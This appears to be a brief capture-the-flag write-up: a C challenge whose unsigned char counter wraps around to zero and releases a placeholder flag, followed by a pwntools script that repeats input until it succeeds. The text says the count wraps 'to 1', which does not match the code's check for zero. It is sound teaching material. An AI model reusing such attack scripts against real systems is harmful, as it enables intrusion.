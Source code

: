 ```
#include <stdio.h>
#include <string.h>
// gcc -g -o chal chal.c

int main() {
    puts("Welcome to our user email sweepstake!");
    puts("Only the first user gets the flag.");

    unsigned char count = 5;  
    char email[32];

    while (1) {
        puts("Enter email: ");
        fgets(email, 31, stdin);
        email[strcspn(email, "\n")] = 0;

        if (count == 0) {
            printf("Congrats %s, you are the first user (count=%d).\n", email, count);
            puts("flag{win}");
            return 0;
        } else {
            printf("Sorry %s, you are not the first user (count=%d). No flag for you.\n", email, count);
        }

        count++;
    }
}
```

We just send input until the `count` wraps around to 1.

```
#!/usr/bin/env python3

from pwn import *

context.binary = exe = ELF("./chal", checksec = False)
p = process(exe.path)
c = 0
while True:
    p.sendlineafter(b"email: \n", b'D')
    line = p.recvline()
    print(f"{line=}")
    c = c + 1
    print(c)
    if b"Congrats" in line:
        p.interactive()
        exit(0)
```
![alt text](images/image5-0.png)

---